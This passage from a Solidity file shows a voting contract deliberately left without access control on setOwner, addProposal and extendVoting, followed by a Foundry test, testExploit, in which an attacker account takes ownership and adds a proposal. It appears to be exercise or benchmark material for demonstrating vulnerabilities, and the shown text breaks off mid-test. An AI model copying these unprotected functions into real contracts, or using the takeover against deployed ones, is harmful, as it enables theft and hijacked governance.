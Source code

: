 ```solidity
    }

    // Vulnerable: No access control; any account can change the owner.
    function setOwner(address _newOwner) public returns (bool) {
        owner = _newOwner;
        return true;
    }

    // Vulnerable: Expected to be owner-only, but missing access control.
    function addProposal(string calldata description) public returns (bool) {
        proposals.push(Proposal(description, 0));
        return true;
    }

    // Vulnerable: Expected to be owner-only, but missing access control.
    function extendVoting(uint extraTime) public returns (bool) {
        votingEnd += extraTime;
        return true;
    }
}

contract YourTest is BaseTestWithBalanceLog {
    VulnerableContract vulnerable;
    
    // setUp() ensures the test contract has enough ETH.
    function setUp() public {
        // Allocate 100 ETH to this test contract
        vm.deal(address(this), 100 ether);
        // Deploy the VulnerableContract
        vulnerable = new VulnerableContract();
    }
    
    // Test demonstrating the access control vulnerability.
    // The balanceLog modifier logs balance changes.
    function testExploit() public balanceLog {
        // Ensure the test contract has at least 10 ETH
        require(address(this).balance >= 10 ether, "Insufficient ETH balance for test");
        vm.deal(address(this), 10 ether);

        // Assume attacker is a different account (simulate with address derived from cheat codes)
        address attacker = vm.addr(1);

        // Log initial owner (should be the deployer of VulnerableContract)
        address initialOwner = vulnerable.owner();
        require(initialOwner != address(0), "Initial owner should not be zero");

        // Attacker calls setOwner() to take over the contract.
        // Using vm.prank to simulate the call coming from the attacker.
        vm.prank(attacker);
        bool successSetOwner = vulnerable.setOwner(attacker);
        require(successSetOwner, "setOwner call failed");

        // Verify that the owner is now the attacker.
        require(vulnerable.owner() == attacker, "Ownership transfer failed");

        // Now, attacker (the new owner due to vulnerability) calls addProposal().
        string memory proposalDescription = "Attack Proposal";
        vm.prank(attacker);
        bool successAddProposal = vulnerable.addProposal(proposalDescription);
        require(successAddProposal, "addProposal call failed");

        // Check that the proposal was added.
        // We use a public getter on the proposals array by index.
```